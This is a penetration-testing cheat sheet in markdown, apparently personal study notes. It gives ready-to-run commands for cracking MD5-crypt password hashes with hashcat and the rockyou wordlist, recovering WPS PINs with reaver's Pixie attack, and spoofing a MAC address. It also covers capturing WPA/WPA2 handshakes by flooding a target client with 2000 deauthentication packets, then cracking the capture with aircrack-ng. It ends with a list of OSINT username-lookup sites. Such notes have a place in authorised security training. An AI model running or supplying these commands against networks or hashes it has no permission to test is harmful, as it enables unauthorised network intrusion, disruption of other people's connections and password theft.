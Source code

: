 ## Identify Hash
* [hash-identifier](https://psypanda.github.io/hashID/)
* [Sample Password Hashes](https://openwall.info/wiki/john/sample-hashes)

## Example MD5 Hash
```
hashcat --example-hashes | grep MD5 -C 4
hashcat -m 500 hash rockyou.txt
hashcat -m 500 -a0 --force 'tmp' '/usr/share/wordlists/rockyou.txt'	
```

# Wireless Attack
## WPS Pin Recovery
```
reaver -i wlan0mon -b 9C:AD...(network-target-mac) -c 1 (channel 1) -f (fixed:one channel) -a -w(win7 register art) -v (verbose) -K 1 (Pixie-attack: hit common pins)
#if Pixie (-K 1 doesnt work, run -vv (very verbose))
```

## Capture WPA/WPA2 Handshake
```
ifconfig wlan0 down
macchanger -r wlan0
ifconfig wlan0 up
airmon-ng
airmon-ng check
airmon-ng check kill
airmon-ng start wlan0
```
```
airodump-ng wlan0mon [--bssid F0:7B.... where F0:7B.. is mac of "target-router"][--channel 11][--write Desktop/path/to/my/file]
```
```
aireplay-ng wlan0mon [--deauth 2000 (sending 2000 deauth packages)][-a F0:7B.. (-a: Accesspoint:Macadress of router)][-c F9:2D..(-c:Client: Macadress of target)]
#sending deauth packages to force a handshake
```

## Crack WPA/WPA2 Handshake

```
aircrack-ng Path/to/my/captureFile/with/handshake.cap -w /Path/to/my/password/list.txt
```

# OSINT
TO BE DONE: Add PP content
* https://namechk.com/
* https://whatsmyname.app/,
* https://namecheckup.com/
* https://github.com/WebBreacher/WhatsMyName
* https://github.com/sherlock-project/sherlock
* https://netcraft.com
